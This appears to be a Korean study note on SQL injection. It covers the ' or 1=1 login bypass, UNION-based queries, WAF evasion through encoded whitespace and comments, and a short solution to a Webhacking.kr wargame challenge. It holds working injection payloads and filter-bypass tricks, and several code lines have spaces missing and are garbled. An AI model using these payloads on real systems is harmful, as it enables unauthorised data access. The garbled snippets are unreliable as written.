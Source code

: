 # SQL Injection

---

## 개요

SQL Injection(약칭 SQLi)은 애플리케이션의 입력값을 통해 악의적인 SQL 문을 삽입하여 데이터베이스 쿼리를 조작하는 공격 기법입니다. 공격자는 이를 통해 데이터 열람, 수정, 삭제, **데이터베이스 관리자 권한 획득**이나 **파일시스템 접근**까지 시도할 수 있습니다.

---

## 기본 예제

- SELECT 예제:

```sql
SELECT * FROM user_tbWHERE ID=‘$id’ and PW=‘$pw’;
```

- 공격자 입력 예시:

```sql
$id = "’ or 1=1 –‘
$pw = 1
```

- 조합된 결과 (주석 사용):

```sql
SELECT * FROM user_tbWHERE ID=‘’ or 1=1 --’ and PW=‘1’;
--: SQL 주석
SELECT * FROM user_tbWHERE ID=‘’ or 1=1
```

---

## 논리값과 결과

- 예시:

```
SELECT * FROM user_tbWHERE FALSE or TRUE
SELECT * FROM user_tbWHERE TRUE
```

- 참/거짓 표기:

> TRUE (참)

TRUE (참)

FALSE (거짓)

---

## 주요 기법(타입)

- UNION SQL Injection
- Error Based SQL Injection
- Blind SQL Injection
- TIME Based SQL Injection

> 특별한 기법이라기보다는 SQL 문을 응용해 장난치는 느낌입니다. DBMS별로 문법 차이가 있어(Oracle, MySQL, MSSQL 등) 여러 DBMS 경험이 있으면 유리합니다. 특히 MySQL에서는 `information_schema`가 중요합니다.

---

## UNION 기반 예시

```sql
SELECTusername FROMcoco_marketing_userWHEREid=''

UNIONSELECTVERSION() # '
```

- 주의: UNION을 사용할 때는 좌/우 SELECT의 컬럼 개수가 일치해야 합니다.

---

## 자동화와 연습

- 하나의 취약점을 발견하면 Python 등으로 자동화 스크립트를 만들어 반복 공격에 사용합니다.
- 다양한 SQL 키워드를 숙지해야 합니다.

---

## WAF 우회 기법 (간단 정리)

1. URL Encoding
   - URL Decoder/Encoder 사용
2. 주석 활용
3. 대소문자 활용
4. 공백 우회 방법 (예: 탭, 개행, URL 인코딩)

예시 토큰:

- `%0a` (개행)
- `%0d` (캐리지 리턴)
- `%09` (탭)
- `/**/` (주석)

---

## 워게임 / 실습 리소스

- Webhacking.kr (운영자: rubiya로 알려짐)
  - 예시 계정: Id / a235  Pw / 1
  - 메모(2016년 1월)
- Wargame.kr
  - already got, QR Code PUZZLE, flee button, login filtering 등

---

## Webhacking.kr - Challenge 18 (요약)

- 취약점 요약: `select id from chall18 where id='guest' and no=$_GET[no]`
- 힌트: No=1 → guest, No=2 → admin
- 우회 예시: `selectidfromchall18whereid='guest'andno=2%09or%09no=2`
  - 여기서 `%09`는 HT(Tab) 문자로 공백 대체 용도

---

## Reference

(원문에서 제공한 참고 자료 및 추가 학습 자료를 여기에 기재할 수 있습니다.)